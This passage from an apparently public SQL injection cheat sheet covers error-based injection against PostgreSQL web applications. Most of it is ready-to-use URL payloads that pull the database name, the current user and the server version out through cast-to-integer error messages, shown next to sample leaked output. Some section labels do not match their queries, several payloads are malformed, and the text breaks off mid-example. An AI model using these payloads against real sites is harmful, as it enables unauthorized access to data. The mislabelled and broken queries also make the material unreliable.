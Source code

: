 Retrieve the database name:  
`http://domain.com/index.php?id=1 union select null,cast(current_database() as int),null,null`  
Inside the error message, the user will be displayed:

> Query failed: ERROR: invalid input syntax for integer: **"munivent_database"** in /home/REDACTED/public_html/index.php on line...

Search for table:  
`http://domain.com/index.php?id=1 union select null,cast(current_user as int),null,null`  
Inside the error message, the user will be displayed:

> Query failed: ERROR: invalid input syntax for integer: **"admin_user"** in /home/REDACTED/public_html/index.php on line...

Retrieving multiple information:  
`http://domain.com/index.php?id=1 and union select null,cast(current_database() ||":"|| current_user ||":"|| version() as int),null,null`  
Inside the error message, the information will be displayed:

> Query failed: ERROR: invalid input syntax for integer: **"munivent_database : admin_user : munivent_database : PostgreSQL 9.2.24 on x86_64-redhat-linux-gnu, compiled by gcc (GCC) 4.8.5 20150623 (Red Hat 4.8.5-39), 64-bit"** in /home/REDACTED/public_html/index.php on line...

## Retrieving information from database (Boolean string)

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#retrieving-information-from-database-boolean-string)

In the second method, we don't need to enumerate the number of columns. We directly begin retrieving information, however it is harder to guess the table names and columns.

`http://domain.com/index.php?1 and 1=cast(version() as int)`  
Inside the error message, the version will be displayed:

> Query failed: ERROR: invalid input syntax for integer: **"PostgreSQL 9.2.24 on x86_64-redhat-linux-gnu, compiled by gcc (GCC) 4.8.5 20150623 (Red Hat 4.8.5-39), 64-bit"** in /home/REDACTED/public_html/index.php on line...

Retrieve the database name:  
`http://domain.com/index.php?id=1 and 1=cast(current_database() as int)`  
Inside the error message, the user will be displayed:

> Query failed: ERROR: invalid input syntax for integer: **"munivent_database"** in /home/REDACTED/public_html/index.php on line...

Search for table:  
`http://domain.com/index.php?id=1 and 1=cast(current_user as int)`  
Inside the error message, the user will be displayed:

> Query failed: ERROR: invalid input syntax for integer: **"admin_user"** in /home/REDACTED/public_html/index.php on line...

Try forcing server to reflect your input:  
`http://domain.com/index.php?id=1 and 1=cast(and 1=cast( CHR(107) || CHR(108) || CHR(101) || CHR(105) || CHR(116) || CHR(111) || CHR(110) || CHR(48) || CHR(120) || CHR(48) || CHR(48) as int)`  
Inside the error message, the input will be reflected:
